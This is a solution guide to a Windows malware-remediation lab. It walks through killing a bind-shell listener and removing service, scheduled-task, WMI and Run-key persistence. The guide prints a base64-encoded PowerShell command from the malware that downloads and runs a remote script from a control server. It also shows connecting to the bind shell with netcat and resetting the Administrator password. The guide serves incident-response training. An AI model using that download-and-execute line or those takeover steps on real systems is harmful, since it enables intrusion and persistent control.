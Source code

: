 # I HAVE THE POWERRRRR! (shell) 

_Solution Guide_

## Overview

The system has been infected with a persistent malware that is opening up a bind shell listener.  Stop and remove the persistence methods and close the listener.  The persistence methods periodically recreate themselves. You must remove persistence in a way that prevents **all** mechanisms from coming back.

_Powerrrrr!_ has a number of tasks that can be remedied in different sequences.  Each malware mechanism recreates itself and others, so deleting one at a time won't work.  The mechanisms that need to be remediated for grading are as follow:

1. Disable the bind shell listener
2. Disable Windows Service persistence
3. Disable Scheduled Task persistence
4. Disable Windows Management Instrumentation (WMI) persistence
5. Disable `Run` registry value persistence

Mechanisms #2 through #5 above contact a command-and-control server every minute and run a remote script that recreates all the mechanisms and opens the listener again.

There are multiple ways to find artifacts: use `C:\ProgramData\chocolatey\bin\autorunsc64.exe`; PowerShell search commands; or, use CMD.exe.

## Question 1

*Enter the token for Remediation 1: removing the attacker's access vector*

#### Disabling the bind shell listener:

From Grayskull, perform a `sudo nmap` command to find an open port on `10.5.5.79` . The open port is 3333, left open by the malware. This gives you a PowerShell prompt. Run the following commands:

```
sudo nmap 10.5.5.79
netcat 10.5.5.79 3333
```

<img src="img/c30-img1.png">

Give yourself **ssh** or another method of access because we want to kill the listener we're connected to. We can't change the `user` account, so we will see what other accounts are available. Run `net user`.

<img src="img/c30-img2.png">

Let's change the password on the **Administrator** account: `net user Administrator Password1234`

<img src="img/c30-img3.png">

Enter `exit` to exit PowerShell and return the Kali command prompt. Now, we can SSH into **10.5.5.79**:

 `SSH Administrator@10.5.5.79`

...using the password you just created. 

At the **administrator@ETERNIA** prompt, enter `powershell`. 

> Note: This solution guide uses PowerShell commands to demonstrate one way of solving _Powerrrrr!_

Let's see what is listening on which port: `netstat -ano -p tcp`

<img src="img/c30-img5.png">

Look at port 3333 and find the process and the path: `Get-Process -id 3416 |select Path` (your PID will be different).

<img src="img/c30-img6.png">

As denoted by the **:search.exe** portion of the path, the program is running in an Alternate Data Stream. `cd` into `C:\Windows.old` to see what else is in that folder (`ls`). 

>Note: Stopping **explorer.exe:search.exe** will allow you to pass grading check #1; however, you will lose connection to port 3333 and the malicious process will start back up because of the way the challenge is designed.

<img src="img/c30-img7.png">

Review the Python script: `Get-Content .\service.py`

<img src="img/c30-img8.png">

**service.py** is running an encoded PowerShell command every minute. Decode it by:

```
$encoded = 'SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4ANQAuADUALgA1ADcALwByAHUAbgBtAGUALgBwAHMAMQAnACkAKQA='                                                                                                    
$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))

$decoded
```
<img src="img/c30-img9.png">

The **Invoke-Expression** command is running **runme.ps1**.  Go to http://10.5.5.57 from Grayskull's browser to download and examine **runme.ps1** if you like.

**Runme.ps1** creates the listener by downloading the **search.exe** file and it is also creating a Scheduled Task, a Windows Service, and a WMI command trigger.

You can write your own script to remove all of these triggers at once and stop them, or by examining **runme.ps1**, you can see it only checks for the presence of the triggers before (re)creating them. **Runme.ps1** does not verify that the triggers are functioning.  For the purpose of this solution guide, we'll disable the triggers one by one and prevent the process from recreating the persistence.

## Question 2

*Enter the token for Remediation 2: removing persistence mechanism A*

#### Disabling Windows Service persistence:

The Windows service can be stopped or disabled as the script only checks if it exists. At the PowerShell prompt, enter: 
```
Stop-Service -Name "search helper"
```
The above command stops the Windows service. Next, disable the command to prevent it from restarting. Enter: 
```
Set-Service -Name "search helper" -StartupType Disabled
```
You can see status with the **Get-Service** command:
```
Get-Service -Name "search helper"
```
Adding `| Select StartType` to the command verifies that the service is disabled:
```
Get-Service -Name "search helper' | Select Starttype
```
<img src="img/c30-img11.png">

## Question 3

*Enter the token for Remediation 3: removing persistence mechanism B*

#### Disabling Scheduled Task persistence:

The Script is only checking if the scheduled task exists, so once again we can disable it:

```
Disable-ScheduledTask -Taskname "Start Jobs"
```

<img src="img/c30-img12.png">

## Question 4

*Enter the token for Remediation 4: removing persistence mechanism C*

#### Disabling WMI persistence:

If you examine the remote PowerShell script, **runme.ps1**, you'll see that the WMI object checks are only on the `EventFilter` and `EventConsumer`, but not the binding.  Let's break it:

```
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Run Helper%'" | Remove-WmiObject -Verbose
```
<img src="img/c30-img10.png">


## Question 5

*Enter the token for Remediation 5: removing persistence mechanism D*

#### Disabling `Run` registry  value persistence:

To see the registry keys, run:
```
Get-Item -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\'
```
You'll note right away the key we want to delete:

<img src="img/c30-img13-a.png">

Run the command to remove, then run the command to verify that the offending key is gone:
```
Remove-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\' -Name "Helper" 
```

<img src="img/c30-img14.png">

## Tokens

Tokens will be provided after scoring checks at https://challenge.us. In the gamespace, browse to https://challenge.us and click the Grade Challenge button to get grading results.
